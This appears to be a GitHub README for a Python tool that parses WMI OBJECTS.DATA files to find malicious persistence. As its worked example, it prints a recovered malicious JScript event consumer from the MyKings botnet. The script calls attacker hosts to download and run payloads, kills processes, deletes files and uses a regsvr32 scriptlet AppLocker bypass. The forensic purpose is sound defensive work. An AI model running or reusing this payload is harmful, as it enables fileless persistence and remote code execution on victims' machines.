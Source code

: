 # WMI Persistence
A repo to hold some scripts pertaining WMI (Windows implementation of WBEM) forensics. So far implemented scripts are: 
1. WMI Database Parser

## Usage:
> Requires Python 3.0+

** To scan a single file **
python WMIPers.py Name_of_File (Usually OBJECTS.DATA)

** To scan multiple files in a folder **
python WMIPers.py -d .\ # Will scan your current folder
python WMIPers.py -d C:\WMI_Samples

## Description:
This script is meant to find WMI persistence by directly parsing the contents of OBJECTS.DATA files thus not requiring access to the user's WMI namespaces. It doesn't require any particular dependencies other than standard Python libraries. The script works fine on both Windows and Linux systems. 
OBJECTS.DATA files can be found on any of two locations: 
- C:\Windows\System32\wbem\Repository\OBJECTS.DATA
- C:\Windows\System32\wbem\Repository\FS\OBJECTS.DATA

The code organizes all the data into a tidy <i>dict object</i> which will grow in complexity as I continue parsing relevant forensic information found in the WMI database file. This will also allow for an easy export to multiple file formats. 

## Example: The case of the Chinese RAT
### Finding malicious persistence script installed after exploiting DoublePulsar SMBv1.0 vulnerability
Many organizations were victims of multiple malware pieces that were weaponized via DoublePulsar. An investigation that I performed recently lead me to find an attack chain that exploited SMBv1.0 vulnerabilities and deployed code that achieved persistence via the use of WMI. Basically it runs a JScript that downloads a list of processes possibly belonging to old versions of the Chinese RAT and attempts to "taskkill" them clearing up the space for the new malicious EXE. It then posts information about running processes to the C2 server and attempts to download the RAT by using a known AppLocker bypass technique that involves registering an ActiveX component via the use of regsvr32.exe.

- A breakdown of how this malware works can be found here: https://www.cyphort.com/eternalblue-exploit-actively-used-deliver-remote-access-trojans/ (seems that the authors forgot however to include the WMI part of this malware)
- For a repo that features examples of how to implement AppLocker SCT bypass please see [here](https://github.com/subTee/SCTPersistence) and [a backdoor example here](https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302)

#### First we run the script
> python WMIPers.py OBJECTS.DATA

#### It will retrieve the general metadata
> --> Binding 48 | FilterToConsumerType: ActiveScriptEventConsumer | EventFilterName: uckmm2_filter | EventConsumerName: uckmm2_consumer

#### And then present the contents of the EventConsumers and EventFilters

> --> EventFilter: select * from timerevent where timerid="uckmm2_itimer"

> --> EventConsumer: 
var toff=3000;var url1 = "http://wmi.mykings.top:8888/kill.html";http = new ActiveXObject("Msxml2.ServerXMLHTTP");fso = new ActiveXObject("Scripting.FilesystemObject");wsh = new ActiveXObject("WScript.Shell");http.open("GET", url1, false);http.send();str = http.responseText;arr = str.split("\r\n");for (i = 0; i < arr.length; i++) { t = arr[i].split(" "); proc = t[0]; path = t[1]; dele = t[2]; wsh.Run("taskkill /f /im " + proc, 0, true);if (dele == 0) { try { fso.DeleteFile(path, true); } catch (e) {} } };var locator=new ActiveXObject("WbemScripting.SWbemLocator");var service=locator.ConnectServer(".","root/cimv2");var colItems=service.ExecQuery("select * from Win32_Process");var e=new Enumerator(colItems);var t1=new Date().valueOf();for(;!e.atEnd();e.moveNext()){var p=e.item();if(p.Caption=="rundll32.exe")p.Terminate()};var t2=0;while(t2-t1<toff){var t2=new Date().valueOf()}var pp=service.get("Win32_Process");var url="http://wmi.mykings.top:8888/test.html",http=new ActiveXObject("Microsoft.XMLHTTP"),ado=new ActiveXObject("ADODB.Stream"),wsh=new ActiveXObject("WScript.Shell");for(http.open("GET",url,!1),http.send(),str=http.responseText,arr=str.split("\r\n"),i=0;arr.length>i;i++)t=arr[i].split(" ",3),http.open("GET",t[0],!1),http.send(),ado.Type=1,ado.Open(),ado.Write(http.responseBody),ado.SaveToFile(t[1],2),ado.Close(),1==t[2]&&wsh.Run(t[1]);pp.create("regsvr32 /s shell32.dll");pp.create("regsvr32 /s WSHom.Ocx");pp.create("regsvr32 /s scrrun.dll");pp.create("regsvr32 /s c:\\Progra~1\\Common~1\\System\\Ado\\Msado15.dll");pp.create("regsvr32 /s jscript.dll");pp.create("regsvr32 /u /s /i:http://js.mykings.top:280/v.sct scrobj.dll");pp.create("rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa");

## References: 
The script was inspired by the work of Graeber about WMI persistence mechanisms:
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

## Future Improvements: 
1) Scan all hosts in your network via SMB using the script
2) Export results to CSV
3) Scan multiple WMI Databases inside a folder
4) Extract more forensically relevant info from OBJECTS.DATA (like SCCM application execution remnants)
5) Decrypt execution values like the especific time setup for timer-based event triggers
6) Parse the contents of MOF files and link them to OBJECTS.DATA findings

